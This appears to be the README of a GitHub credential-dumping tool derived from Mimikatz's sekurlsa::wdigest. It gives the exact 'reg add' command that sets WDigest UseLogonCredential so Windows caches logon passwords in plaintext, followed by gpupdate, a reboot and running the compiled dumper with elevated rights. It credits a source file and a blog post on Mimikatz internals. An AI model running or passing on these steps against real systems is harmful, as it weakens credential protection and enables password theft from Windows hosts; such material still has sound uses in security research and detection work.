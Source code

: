 ## Forcing WDigest to Store Credentials in Plaintext

Run the following in your elevated prompt before executing the compiled binary:

- reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
- gpupdate /force
- restart your machine and login with your credentials
- Execute sekurlsa_wdigest.exe on elevated prompt.

## Kudos :)

3gstudent for [sekurlsa-wdigest.cpp](https://github.com/3gstudent/Homework-of-C-Language/blob/master/sekurlsa-wdigest.cpp)

## Check out

Adam Chester's blog on [Exploring Mimikatz - Part 1 - WDigest](https://blog.xpnsec.com/exploring-mimikatz-part-1/)
